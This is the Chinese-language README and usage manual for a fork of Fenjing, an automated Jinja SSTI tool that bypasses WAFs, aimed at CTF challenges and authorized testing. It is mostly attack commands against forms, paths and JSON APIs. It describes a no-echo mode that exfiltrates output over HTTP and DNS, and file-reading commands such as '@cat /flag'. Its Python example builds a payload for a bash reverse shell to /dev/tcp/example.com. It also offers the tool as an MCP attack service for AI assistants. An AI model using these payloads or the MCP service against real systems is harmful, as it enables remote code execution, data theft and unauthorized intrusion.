

> Bypass the WAF without knowing WAF
> 二开版本，二开作者：安一


[](https://github.com/Marven11/Fenjing/actions/workflows/run-tests.yml)
[](https://github.com/Marven11/Fenjing/actions/workflows/python-publish.yml)
[](https://codecov.io/gh/Marven11/Fenjing)
[](https://pepy.tech/project/fenjing)
[](https://pepy.tech/project/fenjing)


[English](README_en.md) [完整使用文档](使用文档.md) [V我50](https://github.com/Marven11/Marven11/blob/main/buy_me_a_coffee.md)

焚靖二开版本是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口，省去手动测试接口，fuzz题目WAF的时间。

## 演示

[](https://asciinema.org/a/dMEIPe5NS9eZpQU9T06xZutHh)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动爆破API参数并攻击
- 全自动分析网站的WAF并生成相应的payload
- 支持攻击对应的HTML表单或HTTP路径
- 支持将payload放进GET参数中提交，有效降低payload长度
- 自动检测关键字替换并绕过
- ......

## 安装

在以下方法中选择一种

### 使用pipx安装运行（推荐）

```shell
# 首先使用apt/dnf/pip/...安装pipx
#pip install pipx
# 然后用pipx自动创建独立的虚拟环境并进行安装
pipx install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

### 使用pip安装运行

```shell
pip install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

### 下载并运行docker镜像

```shell
docker run --net host -it marven11/fenjing webui
```

## 使用

### webui

可以直接输入`python -m fenjing webui`启动webui，指定参数并自动攻击



在左边填入参数并点击开始分析，然后在右边输入命令即可

### scan

在终端可以用scan功能，猜测某个页面的参数并自动攻击：

`python -m fenjing scan --url 'http://xxxx:xxx/yyy'`

### crack

也可以用crack功能，手动指定参数进行攻击：

`python -m fenjing crack --url 'http://xxxx:xxx/yyy' --detect-mode fast --inputs aaa,bbb --method GET`

这里提供了aaa和bbb两个参数进行攻击，并使用`--detect-mode fast`加速攻击速度

### crack-request

还可以将HTTP请求写进一个文本文件里（比如说`req.txt`）然后进行攻击

文本文件内容如下：

```http
GET /?name=PAYLOAD HTTP/1.1
Host: 127.0.0.1:5000
Connection: close

```

命令如下：

`python -m fenjing crack-request -f req.txt --host '127.0.0.1' --port 5000`

### crack-keywords

如果已经拿到了服务端源码`app.py`的话，可以自动提取代码中的列表作为黑名单生成对应的payload

命令如下：

`python -m fenjing crack-keywords -k app.py -c 'ls /'`

### 其他

此外还支持接受JSON的API，以及根据给定关键字生成payload的用法，详见[examples.md](examples.md)

## 详细使用和疑难解答

见[examples.md](examples.md)以及`--help`选项

## 技术细节

项目结构如下：

[](https://mermaid.live/edit#pako:eNp1VD1vwyAQ_SsWUjNEcbt76FB17dROrSPrgo8YFYPLR5M0yn8vxmnAH2VA3OPd3eM4OBOqaiQFYUIdaAPaZm9Ppcz8MG6319A1mbNcmGwA-0GVUJr_YEQ0fjk0FnWEmNJt6iKNjeawQllPMxnUOZc-EAOKaUrBPxiYgkHuN1suQfTYNjIOuHM9Z9dzGNfI1HEAt6MwWZ4_DvhNRDZRQTXQT9Qm8RuQJBuwijlJqz3KiPoILbejMhgKsnJazGIFHQsO6fZylhRdihLKWsrJoTo4CQV1cqi7u6z2daKWK3m79OtlWTza6hvSGpgGhaiuYUZkxvdznLnIHusfe2SrceRwoqlzAFN79Y9I7QSayp46nIGhiyO4KC0wH9br--60yAw6ElK0h5xe1yzZ9TrS9hu10x847pRhDn264JL0yLzOpSQb0vpXArz2D_vc-5TENthiSQq_lOisBlGSUl48FZxVrydJSWG1ww3Ryu0b4p-RMN5yXQ0Wnzn4NmpvaAfyXaloY82t0i_DVxJ-lMsvGyVeZA)

payload生成原理见[howitworks.md](./howitworks.md)

支持的绕过规则如下

### 关键字符绕过：

- `'`和`"`
- `_`
- `[`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `+`
- `-`
- `*`
- `~`
- `{{`
- `%`
- ...

### 自然数绕过：

支持绕过0-9的同时绕过加减乘除，支持的方法如下：
- 十六进制
- a*b+c
- `(39,39,20)|sum`
- `(x,x,x)|length`
- unicode中的全角字符等

### `'%c'`绕过:

支持绕过引号，`g`，`lipsum`和`urlencode`等

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`等
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=x)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过
- 将字符串切分成小段分别生成
- ...

### 属性：

- `['aaa']`
- `.aaa`
- `|attr('aaa')`

### Item

- `['aaa']`
- `.aaa`
- `.__getitem__('aaa')`

## 其他技术细节

- 脚本会提前生成一些字符串并使用``设置在前方
- 脚本会在payload的前方设置一些变量提供给payload后部分的表达式。
- 脚本会在全自动的前提下生成较短的表达式。
- 脚本会仔细地检查各个表达式的优先级，尽量避免生成多余的括号。

## 详细使用

### 作为命令行脚本使用

各个功能的介绍：

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 根据给定URL爆破参数，以及提取其他URL进行扫描
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- crack-path: 对某个特定的路径进行攻击
  - 攻击某个路径（如`http://xxx.xxx/hello/<payload>`）存在的漏洞
  - 参数大致上和crack相同，但是只需要提供对应的路径
  - 示例：`python -m fenjing crack-path --url 'http://xxx/hello/'`
- crack-request: 读取某个请求文件进行攻击
  - 读取文件里的请求，将其中的`PAYLOAD`替换成实际的payload然后提交
  - 根据HTTP格式会默认对请求进行urlencode, 可以使用`--urlencode-payload 0`关闭
- crack-json: 攻击指定的JSON API
  - 当一个API的body格式为JSON时攻击这个JSON中的某个键
  - 示例：`python -m fenjing crack-json --url 'http://127.0.0.1:5000/crackjson' --json-data '{"name": "admin", "age": 24, "msg": ""}' --key msg`
- crack-keywords: 读取文件中的所有关键字并攻击
  - 从.txt, .py或者.json文件中读取所有关键字，对给定的shell指令生成对应的payload
  - 示例：`python -m fenjing crack-keywords -k waf.json -o payload.jinja2 --command 'ls /'`

一些特殊的选项：
- `--eval-args-payload`：将payload放在GET参数x中提交
- `--detect-mode`：检测模式，可为accurate或fast
- `--environment`：指定模板的渲染环境，默认认为模板在flask中的`render_template_string`中渲染
- `--tamper-cmd`：在payload发出前编码
  - 例如：
    - `--tamper-cmd 'rev'`：将payload反转后再发出
    - `--tamper-cmd 'base64'`：将payload进行base64编码后发出
    - `--tamper-cmd 'base64 | rev'`：将payload进行base64编码并反转后再发出
- 详细解释见[examples.md](examples.md)

### MCP服务器支持

焚靖二开版本支持通过Model Context Protocol（MCP）作为外部服务提供给AI助手使用。

#### 配置方法

在MCP客户端配置文件中添加以下配置（例如OpenCode的opencode.jsonc）：

```json
{
  "mcp": {
    "fenjing": {
      "type": "local",
      "command": ["fenjing", "mcp"],
      "enabled": true
    }
  }
}
```

配置完成后，AI助手即可通过焚靖二开版本进行SSTI漏洞检测和攻击。

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)


# 焚靖二开版本 使用文档

> 版本：`v0.9.1`
>
> 原作者：`Marven11`
>
> 二开作者：`安一`

## 1. 项目简介

焚靖二开版本（Fenjing）是一款面向 **CTF 场景、授权安全测试与教学研究** 的 Jinja SSTI 自动化利用工具。项目核心目标是：在不了解目标 WAF 具体实现的前提下，自动分析过滤行为、生成可通过的 payload，并在可行时进一步执行命令、生成表达式或建立交互利用链。

本项目在保留原版能力的基础上，集成并整理了更完整的使用入口，支持：

- 命令行自动化攻击
- Web UI 图形化操作
- JSON / 路径 / 请求模板场景利用
- 无回显（No-Echo）利用模式
- Python API 集成
- MCP 服务接入 AI 工具链

## 2. 使用声明

本工具仅应用于以下合法场景：

- CTF 竞赛
- 已获得授权的渗透测试
- 本地安全研究与教学实验

请勿将本工具用于任何未授权目标。使用者需自行承担由不当使用带来的法律与合规风险。

二开后能力提升

## 3. 核心能力

- 自动识别目标输入点的响应特征并尝试绕过 WAF
- 支持表单、路径、JSON、原始 HTTP 请求模板等多种攻击入口
- 支持 `accurate` / `fast` 两种检测模式
- 支持 `flask` / `jinja2` 两种模板执行环境
- 支持危险关键字替换场景下的多种应对策略
- 支持手动指定 WAF 关键字，提升复杂目标的检测稳定性
- 支持无回显利用链，包括 HTTP 回连、DNS 外带与时间盲注思路
- 支持从 `.txt`、`.json`、`.py` 文件提取关键字并直接生成 payload
- 支持作为 Python 库调用
- 支持通过 MCP 暴露为 AI 可调用的攻击服务

## 4. 适用环境

| 项目            | 说明                                                         |
| --------------- | ------------------------------------------------------------ |
| Python          | `3.7+`                                                       |
| 主要依赖        | `requests`、`beautifulsoup4`、`click`、`flask`、`jinja2`、`prompt_toolkit`、`pygments`、`pysocks`、`rich` |
| 默认 WebUI 端口 | `11451`                                                      |
| 默认 User-Agent | `Fenjing/0.1`                                                |

## 5. 安装方式

### 5.1 使用 pipx 安装

适合日常独立运行。

```bash
pipx install fenjing
fenjing webui
```

### 5.2 使用 pip 安装

```bash
pip install fenjing
fenjing webui
```

### 5.3 从源码安装

适合二开、调试与提交到自己的 GitHub 仓库。

```bash
git clone <your-repo-url>
cd Fenjing-0.9.1二开
pip install -r requirements.txt
pip install -e .
```

### 5.4 使用 Docker

项目已包含 `Dockerfile`，可直接本地构建：

```bash
docker build -t fenjing-2nd .
docker run --rm -it --network host fenjing-2nd webui
```

## 6. 快速开始

### 6.1 启动 Web UI

```bash
fenjing webui
```

指定监听地址和端口：

```bash
fenjing webui --host 0.0.0.0 --port 11451 --no-open-browser
```

启动后访问：

```text
http://127.0.0.1:11451
```

### 6.2 自动扫描目标页面

```bash
fenjing scan --url "http://target.example/"
```

### 6.3 攻击指定表单参数

```bash
fenjing crack --url "http://target.example/" --method GET --inputs name
```

多参数场景：

```bash
fenjing crack --url "http://target.example/" --method POST --inputs name,email
```

### 6.4 攻击路径型 SSTI

当漏洞点位于路径中，例如 `/hello/<payload>`：

```bash
fenjing crack-path --url "http://target.example/hello/"
```

### 6.5 攻击 JSON API

```bash
fenjing crack-json \
  --url "http://127.0.0.1:5000/crackjson" \
  --json-data "{\"name\":\"admin\",\"age\":24,\"msg\":\"\"}" \
  --key msg
```

### 6.6 使用原始 HTTP 请求模板

将请求保存为 `req.txt`，并用 `PAYLOAD` 标记注入位置：

```http
POST /flag HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Connection: close

name=aaaPAYLOAD
```

执行：

```bash
fenjing crack-request -f req.txt --host 127.0.0.1 --port 5000
```

### 6.7 根据关键字文件生成 payload

```bash
fenjing crack-keywords -k waf.json -o payload.jinja2 -c "ls /"
```

## 7. 命令概览

| 命令                       | 作用                               |
| -------------------------- | ---------------------------------- |
| `fenjing webui`            | 启动图形界面                       |
| `fenjing scan`             | 扫描页面并尝试自动识别可攻击输入点 |
| `fenjing crack`            | 攻击指定表单                       |
| `fenjing crack-path`       | 攻击路径型 SSTI                    |
| `fenjing crack-json`       | 攻击 JSON 请求体中的指定键         |
| `fenjing crack-request`    | 使用原始 HTTP 请求模板进行攻击     |
| `fenjing crack-keywords`   | 基于关键字黑名单生成 payload       |
| `fenjing no-echo-receiver` | 启动无回显回调接收器               |
| `fenjing mcp`              | 启动 MCP 服务供 AI 工具调用        |

## 8. 常用参数说明

### 8.1 通用参数

| 参数                | 说明                                   |
| ------------------- | -------------------------------------- |
| `--url`             | 目标 URL                               |
| `--exec-cmd` / `-e` | 成功后执行的命令；不指定时进入交互模式 |
| `--interval`        | 每次请求的间隔时间                     |
| `--user-agent`      | 自定义 User-Agent                      |
| `--header`          | 自定义请求头，可重复传入               |
| `--cookies`         | 自定义 Cookie                          |
| `--extra-params`    | 额外 GET 参数，例如 `a=1&b=2`          |
| `--extra-data`      | 额外 POST 参数                         |
| `--proxy`           | 代理地址                               |
| `--no-verify-ssl`   | 不校验证书                             |
| `--tamper-cmd`      | 在发送前对 payload 进行外部编码/变换   |

### 8.2 检测与生成策略

| 参数                          | 可选值                               | 说明                                   |
| ----------------------------- | ------------------------------------ | -------------------------------------- |
| `--detect-mode`               | `accurate` / `fast`                  | 检测模式；`accurate` 更稳，`fast` 更快 |
| `--environment`               | `flask` / `jinja2`                   | 指定模板执行环境                       |
| `--replaced-keyword-strategy` | `avoid` / `ignore` / `doubletapping` | 关键字被替换时的处理策略               |
| `--detect-waf-keywords`       | `none` / `fast` / `full`             | 是否枚举被拦截的关键字                 |
| `--find-flag`                 | `auto` / `enabled` / `disabled`      | 是否主动寻找 flag                      |
| `--waf-keyword`               | 多次指定                             | 手动指定 WAF 页面关键字                |

### 8.3 典型参数组合

减少请求次数：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --detect-mode fast
```

指定 Flask 环境：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --environment flask
```

显式声明 WAF 关键字：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --waf-keyword WAF
```

使用代理：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --proxy "http://127.0.0.1:8080"
```

## 9. 子命令详解

### 9.1 `crack`

用于攻击表单类输入点，需要明确指定参数名。

```bash
fenjing crack --url "http://target/" --method POST --inputs username,password
```

关键参数：

- `--method`：请求方法，默认 `POST`
- `--inputs`：目标参数名，多个参数用逗号分隔
- `--action`：表单提交路径；与 URL 路径不同时可手动指定
- `--eval-args-payload`：尝试将 payload 放入 GET 参数，适合部分特殊场景

### 9.2 `crack-path`

用于路径型注入，例如：

```text
http://target/hello/<payload>
```

此时传入前缀路径即可：

```bash
fenjing crack-path --url "http://target/hello/"
```

### 9.3 `crack-json`

用于 JSON 接口攻击。需要提供完整 JSON 数据与待攻击键名。

```bash
fenjing crack-json \
  --url "http://target/api" \
  --json-data "{\"name\":\"admin\",\"msg\":\"\"}" \
  --key msg
```

### 9.4 `scan`

用于自动扫描页面中的可疑表单，并尝试自动进入后续利用。

```bash
fenjing scan --url "http://target/"
```

适合：

- 已知页面存在表单，但不确定具体输入点
- 希望快速试探 CTF 题目入口
- 想先自动化探测，再决定是否转入手工模式

### 9.5 `crack-request`

适合以下场景：

- 参数位置不规则
- 需要保留特殊请求格式
- 目标请求来自 Burp Suite / 浏览器导出
- 需要复用复杂 Header、Body 与路径结构

常用参数：

| 参数                      | 说明                      |
| ------------------------- | ------------------------- |
| `--request-file` / `-f`   | 请求模板文件              |
| `--host` / `-h`           | 目标主机                  |
| `--port` / `-p`           | 目标端口                  |
| `--ssl`                   | 是否使用 SSL              |
| `--toreplace`             | 占位符，默认 `PAYLOAD`    |
| `--urlencode-payload`     | 是否 URL 编码 payload     |
| `--raw`                   | 不自动修复换行和结尾      |
| `--retry-times`           | 重试次数                  |
| `--update-content-length` | 自动更新 `Content-Length` |

### 9.6 `crack-keywords`

用于离线生成 payload，不直接发包。支持从以下文件提取黑名单：

- `.txt`
- `.json`
- `.py`

`.py` 文件场景下，工具会安全读取其中最长的字符串列表，而不是直接执行文件内容。

```bash
fenjing crack-keywords -k app.py -c "ls /"
```

## 10. Web UI 说明

Web UI 适合演示、教学与快速试验。你可以在界面中直接配置目标、选择攻击方式，并在成功后输入命令执行。

界面能力包括：

- 攻击表单
- 攻击路径
- 使用请求模板攻击
- 攻击 JSON 参数
- 扫描目标页面
- 切换主题

如果你需要更细粒度的 Header、Cookie、代理和自动化控制，建议优先使用 CLI。

## 11. 无回显利用模式

当目标页面不直接回显执行结果时，可启用无回显模式：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --no-echo
```

### 11.1 常见参数

| 参数                        | 说明                          |
| --------------------------- | ----------------------------- |
| `--no-echo`                 | 启用无回显模式                |
| `--outbound/--no-outbound`  | 是否优先尝试出网              |
| `--no-echo-callback-url`    | HTTP 回调 URL                 |
| `--no-echo-receiver-api`    | 拉取回调记录的 API            |
| `--no-echo-listen-host`     | 内置接收器监听地址            |
| `--no-echo-listen-port`     | 内置接收器监听端口            |
| `--no-echo-dns-domain`      | DNS 外带域名后缀              |
| `--no-echo-dnslog-command`  | 本地轮询 DNSLog 的命令        |
| `--no-echo-probe-timeout`   | 探测超时时间                  |
| `--no-echo-command-timeout` | 命令执行超时                  |
| `--no-echo-waf-keyword`     | 无回显模式下的 WAF 判定关键字 |
| `--no-echo-ok-keyword`      | 无回显模式下的正常响应关键字  |

### 11.2 启动本地回调接收器

```bash
fenjing no-echo-receiver --host 0.0.0.0 --port 18000
```

### 11.3 内置命令前缀

在无回显模式下，命令支持以 `@` 开头的内部指令：

- `@eval <expr>`：执行 Python 表达式
- `@exec <stmt>`：执行 Python 语句
- `@get-config`：读取 Flask 配置对象
- `@findflag`：尝试定位 flag
- `@ls <path>`：列目录
- `@cat <path>`：读取文件

示例：

```bash
@findflag
@cat /flag
@eval __import__('__main__').flag
```

## 12. MCP 服务支持

项目支持通过 Model Context Protocol 提供给 AI 工具调用。

### 12.1 安装 MCP 依赖

```bash
pip install "fenjing[mcp]"
```

### 12.2 启动服务

```bash
fenjing mcp
```

### 12.3 当前提供的 MCP 工具

- `crack`
- `crack_path`
- `task_inspect`
- `session_execute_command`
- `session_generate_payload`
- `scan`
- `crack_keywords`

### 12.4 配置示例

```json
{
  "mcp": {
    "fenjing": {
      "type": "local",
      "command": ["fenjing", "mcp"],
      "enabled": true
    }
  }
}
```

## 13. Python API 使用示例

除了 CLI 以外，也可以在 Python 中直接生成 payload：

```python
from fenjing import exec_cmd_payload, config_payload


def waf(s: str) -> bool:
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
    ]
    return all(word not in s for word in blacklist)


if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "id")
    conf_payload = config_payload(waf)

    print(shell_payload)
    print(conf_payload)
```

更多示例可参考：

- [example.py](example.py)
- [examples.md](examples.md)
- [howitworks.md](howitworks.md)

## 14. 项目结构

```text
.
├─ fenjing/                 核心源码
│  ├─ cli.py                命令行入口
│  ├─ webui.py              Web UI 后端
│  ├─ mcp_server.py         MCP 服务实现
│  ├─ no_echo.py            无回显利用模块
│  ├─ payload_gen.py        payload 生成逻辑
│  ├─ full_payload_gen.py   完整 payload 生成器
│  ├─ cracker.py            自动分析与利用流程
│  ├─ templates/            Web UI 模板
│  └─ static/               Web UI 静态资源
├─ tests/                   测试代码
├─ README.md                项目首页
├─ 使用文档.md              本文档
├─ examples.md              更多实战示例
└─ howitworks.md            原理说明
```

## 15. 常见问题

### 15.1 扫描不到可利用输入点怎么办？

优先尝试以下方法：

- 改用 `crack` 手动指定参数
- 添加 `--cookies`、`--header`、`--extra-params`、`--extra-data`
- 调整 `--environment flask` 或 `--environment jinja2`
- 使用 `--waf-keyword` 明确标记 WAF 页面
- 切换为 `--detect-mode fast`

### 15.2 目标会替换危险关键字怎么办？

可尝试：

```bash
--replaced-keyword-strategy doubletapping
```

如果不确定目标行为，也可以先开启：

```bash
--detect-waf-keywords fast
```

### 15.3 Tamper 命令有什么作用？

`--tamper-cmd` 会在每次发送前，将 payload 交给外部命令处理，再提交处理后的结果。常见用途包括：

- Base64 编码
- 字符串反转
- 自定义混淆

示例：

```bash
fenjing crack --url "http://target/" --method GET --inputs name --tamper-cmd "base64"
```

注意：该能力更适合 Unix Shell 环境。

### 15.4 请求模板总是失败怎么办？

建议检查：

- 是否保留了 `PAYLOAD` 占位符
- Host 和端口是否正确
- 是否需要 `--ssl`
- 是否需要 `--raw`
- 是否应关闭 `--urlencode-payload`

## 17.新增三种主题


## 16. 二开信息

增强找SSTI链路，增强解题能力，多链路利用方式

## 17. 致谢

- 原项目作者：Marven11
- 原项目仓库：Fenjing
- 本二开版本在原版基础上进行界面文案与文档整理扩展


